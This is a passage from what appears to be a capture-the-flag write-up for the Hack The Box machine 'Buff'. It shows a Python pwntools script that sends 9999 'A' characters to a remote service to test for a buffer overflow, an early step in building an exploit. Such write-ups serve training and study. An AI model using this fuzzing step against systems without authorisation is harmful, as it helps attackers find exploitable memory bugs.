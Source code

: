 ![Desktop View](/assets/img/htb/buff/file_open.png)

2. click repeatedly on the run button until the program starts

![Desktop View](/assets/img/htb/buff/run_button.png)

Once the program starts I'll begin to write the exploit script in python.

#### checking for buffer overflow
First I'll send 9999 "A"s to the program to verify a buffer overflow vulnerability.

```python
#!/usr/bin/env python3
from pwn import *

def exploit():
    
    buffer="\x41" * 9999

    payload = buffer

    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit()
```
